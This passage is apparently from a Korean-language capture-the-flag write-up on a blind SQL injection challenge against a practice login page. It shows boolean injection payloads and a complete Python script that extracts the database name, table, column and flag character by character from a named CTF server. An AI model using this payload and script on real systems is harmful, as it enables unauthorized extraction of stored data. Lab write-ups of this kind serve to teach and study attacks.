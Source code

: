 **이렇게 최종 flag를 획득하였다.**

---

### SQL Injection 6 (Blind SQLI)

이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.

- 계정: normaltic / 1234

로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

하지만 이번에는 **Error Based SQL Injection** 기법을 시도했으나, **서버 측 필터링 또는 예외 처리로 인해 동작하지 않았다.**

따라서 이번에는 **Blind SQL Injection** 방식으로 공격을 진행해보겠다

```sql
normaltic' or ascii(substring(database(),1,1))=115 and '1'='1
```

위 페이로드를 실행한 결과, **조건이 참일 경우 `200 OK`**, 거짓일 경우 `302 리다이렉션` 응답이 발생하였다.
이를 기반으로, **Blind SQL Injection 자동화를 위한 파이썬 스크립트**를 작성해보겠다.

```python
import requests

def data(sql):
    result = ""
    for i in range(1, 50):
        for ascii_code in range(32, 127):
            payload = f"normaltic' or ascii(substr(({sql}),{i},1))={ascii_code} and '1'='1"
            data = {"UserId": payload, "Password": "1234", "Submit": "Login"}
            r = requests.post("http://ctf2.segfaulthub.com:7777/sqli_3/login.php", data=data, allow_redirects=False)
            if r.status_code == 200:
                result += chr(ascii_code)
                print(chr(ascii_code), end='')
                break
        else:
            break
    return result

print("DB: ")
db = data("database()")
print("\n")
print("Table: ")
table = data(f"select table_name from information_schema.tables where table_schema='{db}' limit 0,1")
print("\n")
print("Column:")
col = data(f"select column_name from information_schema.columns where table_name='{table}' limit 0,1")
print("\n")
print("Flag:")
flag = data(f"select {col} from {table} limit 0,1")
print("\n")
print(f"Flag → {flag}")
```

